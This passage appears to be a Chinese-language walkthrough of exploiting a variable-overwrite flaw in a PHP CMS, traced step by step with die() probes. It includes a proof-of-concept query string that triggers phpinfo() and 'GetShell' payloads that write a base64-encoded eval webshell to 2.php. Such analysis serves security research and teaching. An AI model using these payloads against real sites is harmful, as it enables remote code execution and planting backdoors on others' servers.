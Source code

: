 然后我们发现 this is 后面啥也没有<br/> 说明这里是空值<br/> $only和$jobs也一样

---


根据上面的分析条件<br/> $fid是空值就是最好的状态<br/> 所以我们传入 only=1<br/> 删掉die语句<br/> 然后他让我登录…

---


我们来寻找一下是哪个地方让我们登录的<br/> 通过die(‘abc’);<br/> 来查看代码到哪条语句之后让登录<br/> 哪条语句之前会 die 掉<br/> 就能找到是哪里让我们进行登录操作的

---


是这里的 showerror 函数拦截了我们<br/> 我们die一下 $lfjid 的值

---


根据这里的游客无权操作，我们可以得知应该注册账号就行了<br/> 但是因为前面的变量覆盖漏洞<br/> 我们试试看可不可以传入一个 lfjid=1 从而绕过

---


可以发现还是不行<br/> 那就直接注册一个用户

---


然后会发现页面没有提示了

---


那么根据上面构造的语句<br/> POC:

```
?showHtml_Type[bencandy][1]={${phpinfo()}}
&amp;amp;aid=1
&amp;amp;only=1
&amp;amp;job=endHtml

```

---


### GetShell

因为禁止了eval()函数<br/> 我们想要写入eval()木马的话<br/> 可以这样<br/> {${phpinfo() and print(ok)}}<br/> {${file_put_contents(“2.php”,base_decode(‘PD9AZXZhbCgkX1BPU1RbJ3Bhc3MnXSk7Pz4g’)) and print(‘ok’)}}<br/> 结果我们发现页面上并没有打印ok

---


这里的话因为php的版本问题（5.2.17）用下面的exp就能够生成木马<br/> 但是版本高了的话就不太能用了这个exp<br/> 因为魔术引号的存在就有了局限性<br/> 但是如果有CTF大佬的话这肯定也不在话下

exp就是下面这个<br/> Mi5waHAg 是 2.php空格 的base64编码<br/> PD9waHAgZXZhbCgkX1JFUVVFU1RbJ3Bhc3MnXSk7Pz4g 是一句话木马空格的base64编码<br/> 反正得在最后加一个空格，连着空格一起base64编码<br/> 就能得到这两串<br/> 按理来说里面是不允许存在 / = 这样的<br/> / 和 = 号也并未被拦截过滤，反正就是不能执行
